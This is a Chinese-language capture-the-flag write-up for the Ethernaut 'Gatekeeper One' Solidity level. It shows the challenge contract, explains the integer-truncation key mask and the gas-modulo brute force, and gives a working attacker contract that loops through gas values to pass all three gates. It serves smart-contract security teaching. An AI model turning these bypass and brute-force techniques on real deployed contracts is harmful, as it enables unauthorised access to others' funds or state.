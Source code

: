### 第十三题 Gatekeeper One
### 题目
越过守门人并且注册为一个参赛者来完成这一关.
### 提示
- 想一想你在 Telephone 和 Token 关卡学到的知识.
- 你可以在 solidity 文档中更深入的了解 gasleft() 函数 (参见 Units and Global Variables 和 External Function Calls).
源码
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {
    address public entrant;
    modifier gateOne() {
        //要求调用者的地址 msg.sender 不能等于交易发起者的地址 tx.origin --只能是合约调用
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        //要求在调用时剩余的 gas 数量 gasleft() 对 8191 取模的结果为 0，限制调用者的gas数量
        require(gasleft() % 8191 == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        //_gateKey 的低 32 位必须等于低 16 位。
        require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
        //_gateKey 的低 32 位不能等于 _gateKey 的全部 64 位。
        require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
        //_gateKey 的低 32 位必须等于 tx.origin 的低 16 位。
        require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
        _;
    }
    //满足所有修饰符条件的调用才能成功执行
    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```
### 知识点
1. gasleft()返回一个 uint256 类型的值，表示当前调用过程中剩余的 gas 数量。
2. 以_gateKey是0x12345678deadbeef为例uint32(uint64(_gateKey))转换后会取低位，所以变成0xdeadbeef，uint16(uint64(_gateKey))同理会变成0xbeef，uint16和uint32在比较的时候，较小的类型uint16会在左边填充0，也就是会变成0x0000beef和0xdeadbeef做比较，因此想通过第一个require只需要找一个形为0x????????0000????这种形式的值即可，其中?是任取值.
     第二步要求双方不相等，只需高4个字节中任有一个bit不为0即可
### 解题思路&过程
1. 获取实例
2. 1号门--调用地址为合约
3. 2号门--暴力破解法--用call 时可以在后缀加上 {gas: amount}，用for循环不断测试是否成功
4. 3号门--从高位转成低位时，会造成截断和丢失，从第一个开始，uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)，要满足这个，低位的二字节必须等于低位的4字节，所以说要删除四字节中的高位的两个字节，相当于让0x111111等于0x00001111,此时掩码为0x0000FFFF，第二个需求是低位8字节必须与低位的4字节有所不同，满足第一个条件是，必须是0x00000000001111 !=0xXXXXXX00001111，此时掩码为0xFFFFFFFF0000FFFF，那么第三个掩码应用于tx.origin，并将其转换为bytes8，此时，最终结果bytes8 _gateKey = bytes8(tx.origin) & 0xFFFFFFFF0000FFFF;
5. 部署合约
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOneAttacker {
    address public challengeInstance;

    constructor(address _challengeInstance) {
        challengeInstance = _challengeInstance;
    }

    function attack() external {
        bytes8 key = bytes8(uint64(uint160(tx.origin))) & 0xFFFFFFFF0000FFFF;
        for (uint256 i = 0; i < 8191; i++) { 
            (bool result,) = challengeInstance.call{gas:i + 8191 * 3}(abi.encodeWithSignature("enter(bytes8)",key));
            if (result) {
                break;
            }
        }
    }
}
```
6.提交
